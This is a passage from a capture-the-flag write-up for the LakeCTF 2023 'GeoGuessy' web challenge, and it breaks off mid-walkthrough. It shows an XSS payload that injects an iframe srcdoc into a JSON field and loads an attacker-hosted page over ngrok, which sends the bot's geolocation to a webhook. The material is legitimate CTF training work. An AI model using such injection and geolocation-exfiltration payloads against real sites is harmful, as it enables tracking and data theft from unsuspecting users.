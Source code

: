 When the bot visit this `payload.html`, it'll send its longitude and latitude to our webhook URL.

- **Use Ngrok to port forward our static web server to the internet:**

```shell
┌[siunam♥Mercury]-(~/ctf/LakeCTF-Quals-23/web/GeoGuessy)-[2023.11.06|0:47:45(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://ed80-{Redacted}.ngrok-free.app -> http://localhost:80        
[...]
```

- **Create a new challenge with the XSS payload, and grab the challenge ID:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106005012.png)

```json
{
    "latitude":37.507338192034396,
    "longitude":145.6575352656073,
    "img":"foobar",
    "OpenLayersVersion":"2.13\"srcdoc=\"&lt;iframe src&equals;&quot;https&colon;&sol;&sol;ed80-{Redacted}&period;ngrok-free&period;app&sol;payload&period;html&quot; allow&equals;&quot;geolocation &ast;&quot;&gt;&lt;&sol;iframe&gt;\" allow=\"geolocation *\"",
    "winText":"blah"
}
```

**XSS payload in `OpenLayersVersion`:**
```html
"srcdoc="&lt;iframe src&equals;&quot;https&colon;&sol;&sol;ed80-{Redacted}&period;ngrok-free&period;app&sol;payload&period;html&quot; allow&equals;&quot;geolocation &ast;&quot;&gt;&lt;&sol;iframe&gt;" allow="geolocation *"
```

**Convert HTML entities back to text:**
```html
"srcdoc="<iframe src="https://ed80-{Redacted}.ngrok-free.app/payload.html" allow="geolocation *"></iframe>" allow="geolocation *"
```

In this XSS payload, we inject the `srcdoc` attribute into the `<iframe>` tag. **Inside that `srcdoc` attribute, we create a new `<iframe>` element with `src` that points to our `payload.html`, geolocate JavaScript code.**

However, since the bot's Chrome profile only grant origin `https://chall.polygl0ts.ch:9011` able to geolocate, **we have to use `allow="geolocation *"` in our injected `<iframe>`, so that we can geolocate the bot in any origin.** (see [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy/geolocation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy/geolocation) for more details.)

- **Create a new bot with a new account, so that we can know the bot's new account username:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106005135.png)

- **Send the XSS payload challenge link to the bot:**
